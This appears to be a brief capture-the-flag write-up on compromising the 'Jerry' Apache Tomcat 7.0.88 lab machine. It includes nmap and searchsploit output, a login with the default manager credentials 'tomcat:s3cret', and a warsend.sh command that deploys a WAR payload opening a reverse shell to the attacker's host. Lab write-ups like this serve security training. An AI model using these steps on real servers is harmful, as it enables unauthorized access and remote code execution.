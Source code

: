 # Jerry

## NMAP

* Nmap result

```console
PORT STATE SERVICE REASON VERSION
8080/tcp open http syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

## Searchsploit

* `searchsploit Tomcat 7.0.88`

```text
------------------------------------------------------------------------------------------------ ---------------------------------

Exploit Title | Path

------------------------------------------------------------------------------------------------ ---------------------------------

Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code | jsp/webapps/42966.py

Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code | windows/webapps/42953.txt

------------------------------------------------------------------------------------------------ ---------------------------------
```

* `Not Vulnerable to CVE-2017-12617`

## Tomcat

* Running Default creds to access the /manage/html endpoint from [https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown)
* `tomcat:s3cret`

## Shell

* Using [Warsend]([https://github.com/thewhiteh4t/warsend](https://github.com/thewhiteh4t/warsend)) and the above credentials we can get a shell back

```bash
./warsend.sh 10.10.10.10 9001 10.10.10.1 8080 tomcat s3cret revshell
```

![shell](jerry-shell.png)